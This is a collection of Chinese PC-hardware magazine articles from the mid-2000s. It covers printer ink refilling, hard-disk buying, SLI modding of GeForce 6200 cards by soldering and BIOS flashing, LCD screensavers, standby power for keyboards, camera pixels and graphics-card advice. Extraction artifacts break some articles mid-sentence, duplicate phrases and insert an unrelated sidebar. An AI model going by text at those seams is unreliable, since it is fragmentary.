用随墨水带的胶管一端接在墨水瓶口上。将管口另外一端与墨盒底部的灌墨孔对接。将墨水挤入墨盒。注意挤的过程中松几次瓶子(不要松开管口的对接)，使空气回流。灌墨后，保持墨盒倒置，用空瓶从灌墨孔中自动抽出适量空气，以墨盒正过来后不从灌墨孔中渗出墨水为限(见图3)。其原理是:灌墨时向墨盒内加墨水，墨盒内是正压，此时将墨盒正过来，会从灌墨孔及喷嘴渗出墨水，所以正好要抽出适量空气，以保持墨盒内外的气压平衡。注意，空气不能抽得太多，若抽成负压，会造成打印时出墨不畅、断线。



# 大量打印的省墨法则: 连续供墨系统

从理论上说，所有的喷墨打印机都可以使用连续供墨，但是受到一些打印机自身条件的限制和目前连续供墨套件开发及适应范围的限制，所以连续供墨系统暂时还是主要集中在爱普生的所有型号中。佳能分体墨盒型号的打印机连续供墨套件与EPSON的很相似。HP和利盟以及联想等喷头和墨盒一体化的打印机，墨盒是越做越小，现在很多机型受到机器内部空间狭小、输墨管线难于随墨盒运动的自身条件限制，加之喷头使用寿命等原因增大了改装难度，使用连续供墨的实际意义不大。而使用78号彩色墨盒的这种“大墨盒”HP打印机，如果将它改为连续供墨倒还是不错的。

编后语:真正最终极的打印节约之道是什么？那就是不打印^_^
比如……
当我们要传阅文章的时候，可以尝试使用Word的传阅功能！
当我们校对Word文稿的时候，可以使用拼写检查功能来帮助校对！
当我们校对Excel表格数据的时候，可以尝试用语音阅读来帮助校对！
当然，方法还有很多，刚才提到的这些方法大家都知道怎么实现吗？如果不知道，那么下一期一定要继续关注这里。如果您还有更好的节约方法，那就跟我们E-mail联系如何？

## 装机、升级，硬盘买什么？

又到了一个全面装机和升级的热潮，一段时间，暑期的DIY市场可谓是热闹非凡。装机、升级，究竟我们选择什么样的硬盘呢？当前，主流硬盘已经全面进化到了一个高转速、大容量、多接口的时代。其容量已经突破400GB，主轴电机转速已经在7200RPM全面铺开，且转速高达10000RPM以上的硬盘已经不再是遥不可及的产品。在接口方面，传统的P-ATA硬盘雄风依旧，而S-ATA和S-ATA II更有全面取代P-ATA之势，并且有全面取代传统高端SCSI硬盘之势。一时间，硬盘市场上可谓是风起云涌，群雄逐鹿。

### 1.硬盘传输接口的选择和应用定位

定位于家用的台式机硬盘，其主要是为了满足家用存储数据的需要。目前限于家用电脑主板芯片组和相应接口的支持，家用台式机硬盘主要以传统的P-ATA和较新一代的S-ATA硬盘为主，而传统高端的SCSI硬盘和硬盘新秀S-ATA II硬盘，由于成本过高，且完全超出了家用硬盘的需要，因此在目前都还不是我们所需要的。对于高端的SCSI硬盘、S-ATA II硬盘和转速高达10000RPM的高速硬盘来说，其重点应用领域应当是图形工作站、网络服务器、文件服务器等对数据传输速度有相当要求的应用层面，因而对于家用机来说，如果使用这类昂贵的硬盘体系，那完全就是“高炮打蚊子”，得不偿失的事儿。

### 2.硬盘容量的选择与应用定位

对于硬盘的容量指标来说，无疑应当根据自己的存储量来进行定位，太大的容量用不上也是浪费，目前主流家用台式机硬盘的容量在40GB-400GB这个范围之内。40GB硬盘已经是目前台式机硬盘中的最小容量，其售价在400元左右，而400GB硬盘，售价从2900~3500元不等。论及容量上的性价比，笔者认为当前在容量上占据最佳性价比的硬盘，当属160GB和200GB容量的硬盘，其次是120GB硬盘，这两种容量的硬盘已经是当前主流装机和升级的主流。那如何计算硬盘的性价比？首先就要抛开差距日益渐小的“性能”，选择信誉度更好的品牌，如希捷、西部数据、迈拓。然后用以下公式算一算就知道了。

### 3.硬盘品牌和售后质保上的定位

当前，硬盘品牌除了老牌的迈拓（DiamondMax Plus 9（金钻9代）和DiamondMax 10（金钻10代）系列）、希捷（酷鱼V、酷鱼7200.7（2MB）和7200.7 PLUS（8MB）系列）、西部数据（鱼子酱JB（8MB）、JD（8MB）、BB（2MB）系列和Raptor猛禽（10000RPM）系列），也有后起之秀三星硬盘和换装之后的日立硬盘（Deskstar 7K250和180GXP系列）。由于当前硬盘的生产技术已经非常成熟，因此无论是老牌的希捷、迈拓，还是新秀三星和日立，其工作稳定性、发热量和噪声已经控制得比较好，且其性能虽略有差距，但是这对于处于普通应用层面的普通家庭台式机来说，可以忽略不计，毕竟硬盘对于家庭用户来说，就是一块外部存储器。因此，笔者认为，硬盘的质保期限才是值得考虑的。毕竟拥有三年质保的盒装硬盘，其质保日期要比一年质保的硬盘长得多，并且在通常的情况下，硬盘在一年之内是很难出问题的。对此，笔者建议大家尽可能选用三年质保的硬盘，尽管其价格要略贵一些，然而毕竟这样拥有了三年的保证期限。对于水货硬盘来说，虽然也提供了一年的质保，然而以笔者曾经选用水货硬盘的遭遇来说（用了一年半就坏了，更重要的是里面的宝贵数据全飞了）是得不偿失的。

> 编者注:为什么公式里面的容量是 “N GB x 1000” 而不是 “N GB x 1024” 呢？这个还是硬盘厂商对硬盘容量单位GB的定义问题。目前几乎所有的硬盘厂商都以1000MB来定义1GB而不是1024MB，所以我们这里要用1000来计算。

计算硬盘性价比的运算公式为：磁盘每MB字节的价格=价格÷(N GB×1000)。以希捷160GB酷鱼V(620元)和希捷120GB酷鱼V(570元)为例，首先160GB硬盘，每MB字节的价格是620元÷(160GB×1000)=0.003875元，而120GB硬盘则是570元÷(120GB×1000)=0.00475元。通过运算式的计算，我们可以看出160GB硬盘每MB字节的单价要比120GB硬盘的每MB字节单价更低，这也就说明160GB硬盘的性价比要比120GB硬盘更高。

120GB硬盘更高。不过，对于容量的选购，笔者还是建议大家根据需要去选择，如果你仅仅只是拿来做文字处理工作、装几个游戏和下载一些MP3音乐，那么80GB的硬盘完全是足够的了。

另外，如果你要新装一台台式机，那么笔者建议您选择S-ATA硬盘，因为目前绝大多数的主流电脑主板在其S-ATA接口上，均提供了RAID 0、RAID 1和RAID 0+1甚至是RAID 5的支持，如果我们今后对数据的安全性和读、写速度有更高的要求，完全可以在S-ATA构建上组成RAID来突破硬盘的数据传输瓶颈并提高数据安全性。

对于升级硬盘的用户来说，如果你的老主板不支持S-ATA接口，完全可以继续升级P-ATA硬盘，因为两者从实际的数据传输速度上来看，并没有多大的差别，因为当前真正的传输瓶颈来自于硬盘的内部数据传输率，也就是磁片的单碟容量和电机转速。当然，如果你有RAID方面的需要，市面上也有200元左右的P-ATA的磁盘阵列卡供你选用。

## SLI也行——图解 GeForce6200 改造

SLI是近期显卡领域炙手可热的话题，nVIDIA 凭着 SLI 技术在显卡性能排行榜上牢牢占据着前3名的位置。但SLI一直是中高端显卡的专利，直到最近nVIDIA才解禁了GeForce 6600标准版的SLI限制，推出了ForceWare 77.72以实现GeForce 6600“软”支持SLI，揭开了对GeForce 6系列解禁SLI的序幕。

### 改造产品介绍

- 1. 两块 INNO3D 映众 Geforce 6200(128MB 128bit)显卡

INNO3D 映众 Geforce 6200(128MB 128bit)显卡采用了Geforce 6600显卡的P229 PCB电路板，使它能更加容易成功破解为Geforce 6600。

- 2. 一块捷波智尊 K8F8G + Stand 主板

捷波智尊 K8F8G + Stand 主板是一款使用nVIDIA nForce4(标准版)、支持AMD Athlon 64 FX(Socket939)的产品。提供了三条PCI-E x16显卡插槽，使用nVIDIA SLI支持的显卡插入两条绿色的PCI-E插槽可以激活nVIDIA的SLI，另一个黄色的PCI-E插槽可以让一块不支持SLI技术的显卡工作在PCI-E x16模式下。这同时兼顾了单卡PCI-E x16的要求，也能同时满足SLI所需要的两个PCI-E x8的需求。

### 改造捷波智尊 K8F8G + Stand

- 改造需要的工具:电烙铁、焊锡丝、焊锡膏、小刀

捷波智尊 K8F8G + Stand 主板采用nForce4标准版芯片组，需要把它自行破解成nForce4 SLI芯片组才能启用该技术(见图1)。

找到该主板的nForce4北桥芯片，黄色标记处的封胶下就埋藏着两个已经被断开的触点，将这两个触点连接，就可以让主板支持SLI(见图2)。

### 改造 INNO3D 映众 Geforce6200

相关软件: RivaTuner v2.0 RC 15.6 下载地址:http://www.soft2.org/down/20057212213265054
ForceWare 77.72 下载地址:http://drivers.mydrivers.com/dir120/d48247.htm
ForceWare 77.76 下载地址:http://downloads.vr-zone.com/pafiledb.php?action=file&id=73

nVIDIA 推出了 ForceWare 77.72 以实现 GeForce 6600 “软” 支持 SLI，但 77.72 版驱动已经用软件对打开SLI和Pixel unit功能做了限制，所以使用RivaTuner v2.0 RC 15.6将GeForce 6200改造成GeForce 6600已经不可行，需要通过刷新BIOS的方式将GeForce 6200改造成GeForce 6600。由于INNO3D 6200采用与GeForce 6600显卡使用相同的P229公板PCB电路设计，改造成功的几率相对较高。首先，从网上下载INNO3D GeForce 6600(128MB 128bit)显卡的BIOS，把两块显卡分别接在主板上成功刷新BIOS以后，我们再把两块都同时接上，启动计算机，进入操作系统，这时在驱动程序控制界面里，我们可以看到视频BIOS版本变成了5.43.02.46。用RivaTuner打开Pixel unit，说明GeForce 6200成功改造成GeForce 6600。驱动程序界面出现了“启用SLI多GPU”选项，证明已经改造成功。GeForce 6600LE的SLI已获官方驱动支持，根据目前所掌握的情况，最新的ForceWare 77.74/77.76将提供对其支持，有兴趣的朋友可以安装国外网站泄漏的ForceWare 77.76驱动程序，它允许两块GeForce 6600显卡单独超频。改造前用PCMARK04 120和3DMARK 05的测试GeForce 6200显卡的成绩分别3719、4201，而改造完成后，组成SLI进行测试，成绩一下提升20%，达到4168、5153。这样的SLI系统还是非常超值的，有兴趣的朋友都可以尝试一下。（天津 王磊）

## 屏保缘何只“保”CRT？

LCD显示器不能使用屏保，在网上流传已久，这一理论是由何而来的呢？下面就是一篇文章的节选(全部文章可登录http://tech.sina.com.cn/c/2003-12-11/25358.html查看)。

在图形界面操作中，屏幕上显示的色彩多种多样，当我们停止对电脑进行操作时，屏幕显示就会始终固定在同一画面上。这样当电子束长期轰击荧光层的同一区域，就会因显示器荧光层的疲劳效应导致屏幕老化，甚至出现显像管被击穿。屏保就是通过不断变化的图形而使荧光层上的固定点不会被长时间轰击，从而避免了屏幕的损坏。

对于LCD，一部响应时间达到20ms的LCD工作1秒钟，液晶分子就已经开关了几百次左右。而液晶分子的开关次数自然会受到寿命的限制，到了寿命LCD就会出现老化的现象，比如坏点等。

## 屏保让LCD“死得早”？

于LCD出现老化现象是因为背光模块的问题，并不是受到液晶分子开关次数所影响。如果你发现了LCD越来越暗，则很可能就是因为背光模块老化所致。而坏点的问题，则是在生产制造时的问题，不可能在使用中“生出”坏点。因此屏幕保护无疑使液晶分子依旧处在反复开关状态一事，也并不成立。屏保的作用就是用来避免屏幕出现图像残影，而这对于CRT及LCD都适用，如果屏幕长时间停留在某一画面，最好还是打开屏保程序。不过在使用屏保程序时是很耗电的，如果一两个小时不使用电脑，或是在笔记本电脑上，还是关闭LCD的好。(ABCD)

## 屏保并不是LCD的杀手

不可否认，上面这篇在讲解屏幕对CRT显示器的保护作用等方面并没有任何问题，不过在液晶分子开关次数会影响LCD寿命这点是错误的，而且会因老化出现坏点更是不可能的事情。

关于这个问题，经过询问专业人士，得到了下面的答案。

每种电器都会有其使用寿命，显示器也一样，LCD通常的寿命是5万小时以上。至于

## 该休息了，我的鼠标键盘！

不少朋友经常会遇到这样的情况:当正常关机后却发现自己的光电鼠标或者键盘灯却亮着。一时摸不着头脑的朋友可能还会以为自己的鼠标或者键盘坏了，其实不然。是什么导致关机后键盘灯或者光电鼠标仍然亮着呢？下面我们就一起来看看吧。

## 事出有因

大家都知道，现在的电脑多是用ATX电源的，这种电源最主要的特点就是不采用传统的市电开关来控制电源工作，而是采用“+5VSB、PS-ON”的组合来实现。通过控制“PS-ON”信号电平信号的变化，来控制电源的开启和关闭。而且ATX电源增加了一个辅助开关电源，当ATX电源交流输入端一旦有220V的交流电时，辅助电源就开始工作，一路经三端稳压器稳压，输出+5V电源。以保证ATX主板上一些需要在关机状态下要保持工作的芯片的供电，如网络通信接口、电源监控单元、系统时钟等部分芯片；另一路经整流滤波，输出辅助+12V电源，供给ATX电源内部TL494等芯片工作，为ATX电源主变换电路的启动作准备。大部分主板都使用主电源的+5V电源供电，并且在键盘接口附近有跳线可以选择，来改变USB接口的供电方式为副电源的+5VSB供电，用以实现主板的远程唤醒、网络开机和键盘鼠标开机等功能。但由于主电源在关机后就停止了工作，所以主电源无法为这些开机功能提供电力。而这时就需要辅助电源在关机后继续为键盘鼠标等提供电力，以实现这些唤醒、开机功能。说到这里，恐怕一些朋友已经明白了为什么鼠标键盘在关机之后，它们的指示灯还会亮着了。没错，正是因为辅助电源在主电源关闭之后还继续为键盘鼠标供电以实现相应的开机控制功能，所以鼠标键盘的指示灯才会在关机之后依然亮着。举一反三，只要我们将这些功能关闭，那么鼠标键盘就会在系统关闭之后也随之完全关闭，那样这个关机后指示灯长亮的问题可不就解决了么？编者注：在与主板连接的电源排线里有一根紫色电线，这就是+5VSB电源线。它就是前面提到的副电源，就是它为主板的键盘鼠标开机、网络唤醒、Modem唤醒、USB供电、STR功能等提供后备电源，同时也为开机电路提供电源。只要在BIOS里面设置了键盘鼠标开机功能，就会出现计算机关机后键盘灯和光电鼠标的灯会常亮的情况。

## 解决之道

当明白引起这种现象的原因后，要解决起来也就非常容易了。那怎么关闭这些鼠标键盘开机功能呢？下面马上就告诉大家。

### 1. 关闭键盘开机功能

这里，笔者以磐英的EP-3VCA主板为例，介绍如何关闭键盘开机功能。

- 步骤1: 查看主板说明书，调节主板上相应的跳线，把JP4从“2-3”状态设置为“1-2”状态，关闭键盘/鼠标开机方式。

小提示
JP4跳线的作用就是为键盘或PS2口鼠标提供唤醒系统所需要的+5VSB待命电源。

- 步骤2:开机时按Del键进入BIOS设置界面。移动光标到“CHIPSET FEATURES SETUP”项后按回车，在打开的菜单中找到“Power On By Keyboard”选项，按PgUP/PgDn键将其值设置为“Disabled(即只能使用电源键开机)”。

- 步骤3:按ESC键退到主菜单后选择“SAVE & EXIT SETUP”保存并退出CMOS设置即可。

小提示
有些主板并没有设置键盘开机的跳线，但是只要在主板说明书中或主板BIOS设置中有键盘开机的相关选项，就说明该主板也是支持键盘开机的，只要将这些选项设置为“Disabled”即可解决问题。

### 2. 关闭鼠标开机功能

由于鼠标与键盘一样都是由主板上的I/O芯片控制的，所以同样在BIOS里面有类似的选项来关闭鼠标开机功能。技嘉686BX主板上的鼠标开机功能，进入BIOS中，在“Integrated Peripherals”菜单中找到“PS/2 Mouse Power On”设置项，将这项的值设置为“Disabled”就可以关闭鼠标开机功能了。当然，在设置好后还需要保存设置才能生效。

如果你发现自己的光电鼠标或者键盘灯在关机后仍然亮着，不妨尝试通过关闭键盘或者鼠标的开机功能来解决问题。

(包子)

## 显卡小菜的SLI攻略

### SLI扫盲篇

小菜：N博士，你说我换个什么显卡才能真正体验到DOOM3的刺激感觉啊？
N博士：现在市面上几乎任何一块显卡都不能在1600的分辨率上让DOOM3获得很高的fps，唯有nVidia的SLI技术才能实现这种效果。
小菜：SLI？nVidia把3Dfx买下来这么久才想起让3Dfx大红大紫的SLI技术？
N博士：这里面有个误解。虽然同是SLI，但nVIDIA的SLI是指Scalable Link Interface（可灵活伸缩的连接接口），而3Dfx的SLI是指Scan Line Interleave（隔行扫描线）。这两者有本质上的不同。
小菜：有什么不同啊？难道nVIDIA的SLI不是用两块显卡来渲染同一个画面？
N博士：不错，从用户的角度来看，两种SLI都是靠两块独立显卡合作渲染同一个画面来获得性能上的提升。但nVIDIA的SLI具有下列特点：

- 1. nVIDIA的SLI基于PCI-Express总线，而3Dfx的SLI基于PCI总线，前者的带宽是后者的60倍；
- 2. 3Dfx的SLI执行隔行扫描，属于模拟应用，因此可能由于数模转换差异和其他因素等造成图像质量欠佳。而nVIDIA SLI则是完全数字化的帧组合，对图像质量没有任何影响；
- 3. 3Dfx的SLI还有一个重大缺陷就是只能提高纹理填充的效率，而几何运算则仍然需要由CPU来完成，这在今天动辄数百万多边形的游戏里面根本没有实用价值。为此，nVIDIA SLI可以让两块显卡协作进行几何运算的能力就显得非常出色，能够真正提高游戏的运行效果；
- 4. 最后，nVIDIA SLI由驱动程序来确定协作模式，例如可以是上下分屏，也可以是逐行处理。并且nVIDIA SLI充分利用了最新的并行计算技术，两块显卡是在驱动程序的协调下进行并行工作，而不是像3Dfx SLI那样的串行工作。

### SLI配置篇

小菜：好复杂啊！不过nVIDIA SLI具有几何加速能力确实是现代游戏必需的。不知道要配置一个SLI平台需要些什么条件呢？
N博士：很简单，首先你的主板要基于PCI-Express总线，其次就是购买两块同一厂商同一型号并且支持SLI的nVIDIA显卡，以及一个SLI模块。只要将两块显卡插入PCI-Express插槽并用SLI模块连接好，然后为操作系统装上nVIDIA ForceWare驱动程序，你就可以享受SLI带来的震撼感觉了！
小菜：您刚刚提到装上驱动就可以了，不需要为游戏进行特别设置吗？
N博士：是的，完全不需要进行单独设置。因为对于游戏来说，它根本不知道你用了两块显卡。SLI技术对于应用程序来说是完全透明的。
小菜：那为什么要两块同一厂商同一型号的显卡呢？

型号的显卡呢？
N 博士：不同厂商不同型号的显卡由于厂商的设计和制造差异，因此容易出现兼容性问题。因此 nVIDIA 强行规定必须使用同一厂商同一型号，并且支持 SLI 的 nVIDIA 显卡。

小菜：目前有哪些显卡支持 SLI 啊？

N 博士：从 GeForce 6800 Ultra、GeForce 6800 GT 和 Quadro FX3400 开始，nVIDIA 的新款高端显卡都支持 SLI 技术了，所以选择余地很大。

小菜：使用 SLI，对我的主板、CPU、内存以及操作系统这些有什么特别要求吗？

N 博士：有几个要求必须达到。首先是主板必须支持 PCI-Express，因为 SLI 显卡只有 PCI-Express 规格的。其次 CPU 应该使用目前的高端 CPU，否则不能充分发挥 SLI 的能力。内存也一样，大容量的高速内存能够让游戏以最快的时间将数据加载到显卡。最后就是操作系统最好安装 Windows XP SP2，因为新操作系统对新硬件的支持能力总是更好。

### SLI 实践篇

小菜：看来好马还要配好鞍才行啊。那 N 博士再和我说说具体的升级步骤和注意事项吧。

N 博士：我推荐按照下面的步骤进行升级。

- 1. 检查主板是否支持 PCI-Express 总线，然后查找资料或者主板制造商，了解该主板对 SLI 显卡的支持情况。特别是问清楚这块主板上，哪些型号的 SLI 显卡是经过了全面测试的。这些信息是下一步选购显卡时的重要参考信息。
- 2. 选购名牌大厂的 SLI 显卡。虽然中小厂商的产品会更便宜，但对于支持 SLI 的高端显卡来说还是大厂产品更适合。不论是质量还是稳定性，都是非常出色的。选购时最好购买两块同一批次的同型号显卡，因为有时候厂商会在不同批次的同一型号显卡上采用略微不同的设计或者元件。购买显卡后一定还要记得购买 SLI 连接模块。
- 3. 安装显卡前下载 ForceWare 驱动程序和显卡驱动程序（应该选择最新版本的驱动程序），然后卸载现有显卡的驱动程序。安装新显卡后首先安装 ForceWare 驱动，重启以后再安装显卡驱动。
- 4. 运行游戏或者显卡检测软件验证显卡是否正常工作并进行设置调整。

升级步骤很简单，但要达到最佳效果，还要注意下列事项：

- 1. 如果升级后游戏运行仍然没有多大改善，要首先检查具体原因。例如是不是因为内存太小导致频繁读取硬盘，从而降低了游戏运行速度。或者 CPU 速度太慢，根本没能发挥 SLI 显卡的性能。所以要针对具体情况分别处理。
- 2. 如果升级后系统运行不稳定，那么有可能是机箱散热不好造成的。因为两块显卡 SLI 连接以后距离很近，所以需要机箱具有良好的散热条件。电源功率不够、主板电源模块负载太小也可能出现这种情况，需要多试验以确定原因。
- 3. 如果上述措施都没有办法获得好的效果，那么可以尝试安装一个干净的系统来进行测试。因为有时候错误的设置和混乱的系统也会影响应用程序和游戏的运行效果。

小菜：看来学问很多呢。如果系统有病毒、木马也一样不能获得好的效果，对吧？

N 博士：呵呵，当然了。

小菜：我这就去电脑城，最近钱多得心慌，是该败家了。

N 博士：……

（廖宇雷）

数码相机毫无疑问已经成了最常见的数码消费品之一。但是如果对数码相机没有足够的了解，那么无论是在选购、拍摄还是打印输出的时候都会多多少少遇到问题。我们今天从数码相机成像的最基本概念——像素入手，为大家解释像素的原理以及在购买和使用的时候与其相关的许多基本常识，希望对大家有所帮助。

## 别让像素蒙了我们的眼

### 是什么取代了胶片？

对于传统相机的底片而言，每张底片上紧密排布的银盐颗粒记录了一幅幅画面，每一个银盐颗粒都记录了对应位置的颜色信息。到了数码相机时代，微小的电子元器件紧密排列，成为“电子的银盐颗粒”。每个元器件记录下在自身位置所感受到的光线强弱，此时还没有图像的概念出现，不过已经可以用数字来表示这些光照的强弱了。于是乎，每个元器件都能给我们提供一个数值，再利用软件，把数值汇总计算出图像来，这样，像素便出现了。CCD/CMOS 上感光组件的元器件经过感光，光电信号转换，A/D 转换等步骤以后，在输出的照片上就形成一个点，我们如果把图像放大数倍，会发现这些连续色调其实是由许多色彩相近的小方点所组成，这些小方点就是构成图像的最小单位“像素”(Pixel)。所以，笔者形象地称像素是图像的调色板。

大家要注意，这里所说的像素分为 CCD 像素和有效像素。CCD 像素是感光器材的元器件总数，每个元器件可以看作一个像素。有效像素是汇总后生成的数字化图像的点的总数，每个点可以看作像素。注意：这两者可不是完全不一样的概念。一般来说，每个元器件只能感受三原色中一种颜色的强度，而汇总生成的图像的像素，则承载了三原色(红、绿、蓝)三个通道的所有信息。这两个像素，原则上是 CCD 像素决定了图像的最大像素(分辨率)，但这两个像素一般情况下不相等。

### 谁来决定照片的分辨率？

数码相机的分辨率是用图像的绝对像素数来衡量(而不采用每英寸多少像素的 dpi 指标)。细心的朋友也许已经发现，数码相机拍摄图像的像素数取决于相机内 CCD 芯片上感光组件的元器件的数量，数量越多则可产生的图像分辨率越高，所拍图像的质量也就越高。

给大家举个例子，尼康 COOLPIX 7600 数码相机的 CCD 像素为 741 万，最大可以拍摄分辨率为 3072 x 2304=7077888 Pixels。也就是说，实际的有效像素就是 708 万。

其他像素级的数码相机，其分辨率和有效像素的换算也是如此。可以看出，像素越高，最大输出的图像分辨率也越高。

那为何数码相机标称的 CCD 像素值比实际拍摄图像的分辨率(有效像素)要大呢？那是因为实际拍摄时需要 CCD 的像素值大于拍摄图像的像素值，原因是 CCD 作为数码相机的感光器，边缘的感光元件都有可能会发生出现偏色和模糊，因而在产生图像时，数码相机会自动剪除边缘的像素点。这样就会造成实际拍摄图像的像素值(分辨率)略低于 CCD 所能提供的像素值的情况。

### 拍成什么样，打成什么样！

数码相机的分辨率还直接反映出能够打印出的照片尺寸的大小，一般会标示最大分辨率，用户也可以调低分辨率从而在相同的存储卡上保存更多数量的照片。分辨率越高，在同样的输出质量下可打印出的照片尺寸越大。

这里还是以尼康 COOLPIX 7600 数码相机为例了，计算方法也是很简单的：

宽:3072 Pixels/ 300 dpi=10.24"

高:2304 Pixels/ 300 dpi=7.68"

也就是说如果用 300dpi 输出分辨率冲印，最多能冲印 10.24 英寸 x 7.68 英寸的照片，而通常照片的尺寸是：

- 5英寸:5 x 3.5
- 6英寸:6 x 4
- 7英寸:7 x 5
- 8英寸:8 x 6
- 10英寸:10 x 8
- 12英寸:12 x 10

很明显，708 万像素能以 300dpi 的分辨率冲印最大 10 英寸的照片。

小提示
一般来说，人眼能分辨出的最大分辨率是 300dpi，超过这个分辨率，人的眼睛是无法看出差别的，也就是说 300dpi 和 600dpi 在人眼看来是没有差别的，所以现在大多数冲印设备最大的设计输出分辨率也就是 300dpi。

如上所述，“打印尺寸”与图像分辨率有莫大的关系，只要图像分辨率改变了，打印的尺寸便会跟着变化，而像素和图像分辨率又有直接的关系，所以三者可以互相转换。当然，其中最根本的还是像素。

### 选购数码相机只注重像素值？

我们之所以关心像素，其实最终的目的是希望自己的照片在放大到足够大的时候，越清楚越好，也就是说希望照片能承载的信息量越多越好，细节越多越好。其实像素的多少并不能决定一切，只有在同样的外界条件，同样的感光设备(同样尺寸、同样厂商的 CCD/CMOS)等前提下，我们才能说 CCD 的像素越多就一定越好。

特别是现在很多人都忽视了 CCD/CMOS 的尺寸。那么常用的 CCD/CMOS 尺寸无非是从 2/3"、1/1.8" 到 1/2.7" 之间。注意，这里是个分数，2/3" 实际上就是 0.667 英寸，而 1/2.7" 则是 0.37 英寸。这些规格是指对角线长度，0.667 英寸有多大呢？大约 8.8mm x 6.6mm 左右。对比一般的专业单反相机，感光器材尺寸则大得多，譬如编辑部刚购买的入门级 Canon EOS 300D，其 CMOS 尺寸为 22.7mm x 15.1mm，面积整整大了 6 倍。

如果都是民用级数码相机，那么通过计算“感光面积/像素值”就可以大致知道此款机器成像质量的好坏档次。一般时尚机器为了图小，都使用很小的 CCD，为了吸引消费者，却往往采用大像素值，典型的 Pentax Optio S5 的 CCD 像素达到 500 万，CCD 只有 1/2.5" 大小，画质可想而知。中档的机器一般采用 1/1.8" 居多，高档的机器一般采用 2/3" CCD 居多。

所以，简单理解就是，我们在购买数码相机的时候不光要看它标称多少万像素，更要看他的 CCD 尺寸。1 台 600 万像素但是 CCD 只有 1/2.5" 的数码相机，成像质量一定比不过一台 500 万像素但是 CCD 尺寸为 1/1.8" 的相机。

## 我有我需要，热门显卡选购路路通

近年来，显示芯片市场争斗愈演愈烈，显示芯片推出厂商陆续推出了许多型号的产品，这些产品的性能与编号并不是那么容易弄清楚，如SE和XT究竟是怎么回事？XT就一定是更强的型号吗？这些问题都让许多消费者茫然，那么在战火绵延的显卡市场中，普通消费者该如何选择一款既能满足自己需要，又不超出预算的显卡？下面，我们就为大家举几个最常见的例子。

## 案例一

秦健是一名不折不扣的网虫，除了爱玩《天堂2》等网络游戏外，还经常自己录制网络歌曲，把歌曲配上自己拍的画面和一些电视视频画面剪接成MTV，他原来用的主板是华硕K8N，现在想买一块显卡，价格在1000元左右，最好还可以超频使用。

专家指导：要在《天堂2》等3D网络游戏中得到好效果，显卡的图形处理性能很关键，而音频、视频编辑采集则对系统和采集设备有较高的要求。如果这位朋友预算充足的话，可以针对这两项分别购买相应的显卡和采集设备来满足使用需求。除此之外，我们还可以选择一些集成电视接收、视频采集功能（简称VIVO）的显卡。

产品介绍：迪兰恒进 镭姬杀手 9800SE黄金版采用飞利浦的高频头和ATi的Theater200视频音频处理芯片，具有VIVO功能，可接收来自视频、音频输出（S端子和AV输出）设备的影像和声音，还能够进行实时录制。

在接口方面，除了闭路线接口和VIVO口外，该卡直接使用DVI接口与显示器连接。只有VGA接口显示器的朋友可以用附送的DVI转D-SUB转接头来转换连接接口。此外，镭姬杀手Radeon 9800SE黄金版的超频、改造潜力也很大，其中不少产品都可通过修改驱动、BIOS等方法打开八条像素渲染管线，当然，也有个别是就算不能修改。不过，搭配256bit 128MB 3.3ns三星显存的它还是很超值的。

## 案例二

宸林是一位在校大学生，也是一名硬件发烧友，经常追逐一些热门的硬件技术，但是由于还是学生，没有相对稳定的经济来源，所以很多时候他也只能是过过眼瘾。最近他又迷上了SLi，但无奈只有GeForce 6600以上规格的显卡才支持这项功能，有没有更廉价的办法上SLi呢？

## 传说中的Foveon X3

Foveon X3技术是美国Foveon公司今年公布的，这也是世界上第一款全彩色图像传感器。如果按大类算的话，它应该归属于CMOS图像感光技术，但它却不同于传统的CMOS。传统的CMOS都是单像素提供单原色的一种感光技术，而X3却是用单像素提供三原色的感光技术——Foveon X3硅元素滤色镜技术。Foveon X3图像传感器能够使用光学探测器根据硅元素对于不同波长的光波的吸收情况准确地捕捉红、绿、蓝三种色彩。Foveon X3技术的另一个特点是虚拟像素尺寸——VPS（Virtual Pixel Size）。可以理解为把邻近的像素信号组合成一个像素，比如说2×2或者4×4，从而增加信噪比。这个特点可以在提高感光度同时保持低噪点。此外，使用VPS减低像素还可以加快从感光器提取信号的速度，这对于摄像应用有很大帮助。



专家指导：目前GeForce 6600以上版本的显卡才支持SLi技术。所以要先将GeForce 6200显卡修改为GeForce 6600才可以实现SLi。GeForce 6200代号是NV43V，它有4条渲染管线，这是除了频率外，它和6600/6600GT唯一的区别。只要打开被屏蔽的4条渲染管线，性能得到了相当的提升，和GeForce 6600的表现相差无几。另外，要用GeForce 6200显卡实现SLi，还必须有相应的主板支持，目前已知捷波的智尊K8F8G主板可支持。

产品介绍：显卡采用了蓝色PCB板，基于GeForce 6200 GPU，继承了GeForce 6系列的优秀血统，提供了对Shader Model 3.0特效的支持。因为GeForce 6200 GPU属于原生PCI-E 16X高速传输接口，还支持DirectX 9.0c，具备4条像素渲染管线和3个顶点着色单元。不同于6600LE，掠夺者6200增强版是采用6600标准版核心屏蔽4条像素渲染管线而得，打开其余4条管线“晋升”6600标准版的机会要比6600LE大得多。散热方面，显卡采用的是大面积纯铝散热片，在确保良好散热的同时，还降低了噪音。

## 案例三

《魔兽世界》已经成为时下最火的3D网络游戏，作为暴雪FANS的申明，也是跃跃欲试，奈何自家电脑显卡不堪重负，所以打算借此机会升级一下显卡。他的电脑主板是华硕的P4S-X，它只提供了一个AGP 4×插槽，而现在的市面上的AGP显卡都标有AGP 8×。这种AGP 8×的显卡能否向下兼容AGP 4×的主板？如果能支持，对显卡的性能是否有影响？我打算买N卡还是A卡，是选择6200、X700还是6600、X800？

专家指导：在AGP 4×插槽上可以使用AGP 8×的显卡，但性能会稍微的受一点点影响。要分辨AGP 4×和8×需要用专门的测试工具或者在驱动程序中看看是否可以打开AGP 8×的选项来检验。这里，我们推荐你使用N卡，因为N卡对游戏的支持还是要比A卡好点。GeForce 6600GT可以说是《魔兽世界》这款游戏相匹配的、性价比最好的显卡。用它玩《魔兽世界》就算特效全开速度也可以很流畅。GeForce 6600GT还完全支持微软DirectX 9.0C，可以说它已经足够应付目前市面上各种游戏了。除此之外，Radeon 9800 Pro显卡作为曾经的“老大”也是一个不错的选择。性能与GeForce 6600GT相差无几，是AGP显卡接口平台升级的一个很好选择。

编者注：N卡指的是采用nVIDIA公司生产的图形处理核心GPU的显卡，A卡则指的是采用ATI公司生产的图形处理核心的显卡。

